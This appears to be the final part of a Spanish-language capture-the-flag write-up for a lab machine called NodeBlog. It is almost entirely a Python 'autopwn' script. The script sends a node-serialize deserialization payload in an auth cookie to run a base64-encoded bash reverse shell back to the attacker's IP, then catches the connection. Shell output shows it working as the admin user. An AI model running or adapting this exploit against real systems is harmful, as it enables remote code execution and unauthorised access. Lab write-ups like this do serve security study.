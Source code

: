 ```python
def unserialize_attack():

    reverse = f'bash -i >& /dev/tcp/{Host_ip}/1234 0>&1'
    reverse_bytes = reverse.encode("ascii")
    base64_bytes = base64.b64encode(reverse_bytes)
    reversebase64 = base64_bytes.decode("ascii")

    payload= encode_all("""{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('echo %s| base64 -d | bash', function(error, stdout, stderr) { console.log(stdout) });}()"}""" % reversebase64)
    cookie = f'auth ={payload}' 
    headers = {
    "Cookie": cookie
    }   
    r = s.get(Target_ip,headers=headers)

if __name__ == '__main__':
    
    threading.Thread(target=unserialize_attack, args=()).start()
    shell = listen(1234,timeout=10).wait_for_connection()
    shell.interactive()
```

Si lo ejecutamos:
```
python3 AutopwnNodeBlog.py 10.10.14.17
[+] Trying to bind to :: on port 1234: Done
[+] Waiting for connections on :::1234: Got connection from ::ffff:10.10.11.139 on port 59108
[*] Switching to interactive mode
bash: cannot set terminal process group (863): Inappropriate ioctl for device
bash: no job control in this shell
admin@nodeblog:/opt/blog$ $ whoami
whoami
admin 
```
¡Listo! Hemos automatizado la intrusión.

Nos vemos, hasta la próxima.
